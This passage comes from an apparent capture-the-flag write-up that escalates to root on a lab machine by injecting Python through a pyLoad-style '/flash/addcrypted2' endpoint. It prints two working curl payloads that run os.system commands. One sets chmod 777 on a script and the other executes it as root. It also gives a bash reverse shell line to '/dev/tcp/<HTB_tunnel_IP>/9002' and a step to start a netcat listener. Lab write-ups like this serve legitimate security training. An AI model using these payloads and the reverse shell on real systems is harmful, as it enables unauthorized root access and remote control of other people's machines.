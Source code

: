 Now we have to provide permissions to all the users to read, write and execute, since the owner of the file is root. To do this use the following exploit:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20777%20/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```

After executing the above command, if check the file permissions of the [`rev.sh`](http://rev.sh) file, you can see that all users have all permissions.

![Untitled 25](PC/assets/Untitled%2025.png)

Now we can edit the [`rev.sh`](http://rev.sh) file. Add the following content to the `rev.sh` file to create a reverse shell.

```
#! /bin/bash
bash -i >& /dev/tcp/<HTB_tunnel_IP>/9002 0>&1
```

![Untitled 26](PC/assets/Untitled%2026.png)

Don’t try to execute the reverse shell from the target machine, as you will get the reverse shell only with the privileges of `sau` , as the `rev.sh` file is executed by that user.

Before executing the reverse shell, start a `netcat` listener on the attacking machine.

![Untitled 27](PC/assets/Untitled%2027.png)

Now run the following command to execute the reverse shell as root:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```
